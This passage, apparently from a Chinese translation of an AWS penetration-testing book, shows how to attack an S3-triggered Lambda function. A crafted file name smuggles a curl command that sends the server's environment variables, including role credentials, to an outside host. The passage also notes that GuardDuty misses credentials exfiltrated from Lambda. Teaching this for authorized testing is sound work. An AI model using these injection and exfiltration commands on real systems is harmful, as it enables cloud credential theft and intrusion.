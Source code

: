 回到我们的有效载荷；现在，我们需要将一个文件上传到 S3，文件名称如下：

```

hello;curl -X POST -d "`env`" 1.1.1.1;.zip

```

由于其中有双引号，Microsoft Windows 不允许您创建具有这个名称的文件，但在 Linux 中很容易做到。我们可以使用`touch`命令来创建文件。它看起来像这样：

```

touch 'hello;curl -X POST -d "`env`" 1.1.1.1;.zip'

```

上述命令的输出将如下所示：

![](https://github.com/OpenDocCN/freelearn-kali-zh/raw/master/docs/hsn-aws-pentest-kali/img/215c8c00-1f95-48dd-b752-e4274bc82d14.png)

在我们自己的 Ubuntu 服务器上创建一个恶意名称的文件

现在一切都准备就绪了。我们只需确保我们的 NetCat 监听器已经在我们的外部服务器上启动，然后将此文件上传到 `bucket-for-lambda-pentesting` S3 存储桶，然后等待 Lambda 函数被调用，最后等待我们的恶意命令执行。我们可以通过使用 S3 `copy` AWS CLI 命令将我们的本地恶意文件复制到远程 S3 存储桶来上传它：

```

aws s3 cp ./'hello;curl -X POST -d "`env`" 1.1.1.1;.zip' s3://bucket-for-lambda-pentesting --profile LambdaReadOnlyTester

```

因为我们的恶意文件名，它看起来有点乱，但它所做的就是使用 S3 `copy` 命令作为`LambdaReadOnlyTester` AWS CLI 配置文件，将我们的本地恶意文件复制到`bucket-for-lambda-pentesting` S3 存储桶。执行此命令后，我们只需等待并观察我们的 NetCat 监听器，希望能获取一些凭据！几秒钟后，我们将看到以下内容：

![](https://github.com/OpenDocCN/freelearn-kali-zh/raw/master/docs/hsn-aws-pentest-kali/img/972de3e2-9dfb-48ed-8a9d-75616e094317.png)

来自 Lambda 服务器的所有环境变量都发送到我们的 NetCat 监听器

我们成功了！我们成功地通过一种有时被称为事件注入的方法，在运行 Lambda 函数的服务器上实现了代码执行，然后我们成功地将附加到该 Lambda 函数的角色的凭据外传到我们的外部服务器。现在，您可以将这些凭据用于您的 AWS CLI，并且继续前进并征服！

附加奖励：在撰写本文时，GuardDuty 的`UnauthorizedAccess:IAMUser/InstanceCredentialExfiltration` 发现类型 ([`docs.aws.amazon.com/guardduty/latest/ug/guardduty_unauthorized.html#unauthorized11`](https://docs.aws.amazon.com/guardduty/latest/ug/guardduty_unauthorized.html#unauthorized11)) 不适用于从 Lambda 服务器中获取的凭据！

最后要注意的一点是，我们利用了一种事件注入方法来利用这个 Lambda 函数，但还有很多其他类型。您可以通过各种方法触发 Lambda 函数调用，例如前面提到的 DynamoDB 示例，或者可能是通过 CloudWatch Events 规则。您只需找出如何将自己的输入传递给函数以控制执行。使这一切变得最简单、最快速的方法是使用自定义测试事件（如果您拥有`"lambda:InvokeFunction"`权限），因为您可以在事件中指定您需要的确切载荷。

在入侵测试 Lambda 函数（带有读取访问权限）时需要记住的其他事项包括以下内容：

+   检查与每个函数相关联的标签，查看是否包含敏感信息。这种可能性非常小，但并非不可能。

+   正如我们之前讨论的，考虑将整个函数复制到你自己的 AWS 账户中进行测试，这样你就不需要在目标环境中制造噪音。

+   如果你有 CloudWatch 日志访问权限，请查看每个 Lambda 函数的执行日志，看看是否打印了任何敏感信息（存储在`"/aws/lambda/<function name>"`日志组中）。

+   你可以通过单击 AWS Web 控制台上的`"Actions"`下拉菜单，然后单击`"Export function"`，选择`"Download deployment package"`，来下载整个 Lambda 函数的`.zip`文件。然后，将其简单地移植到你自己的账户中。
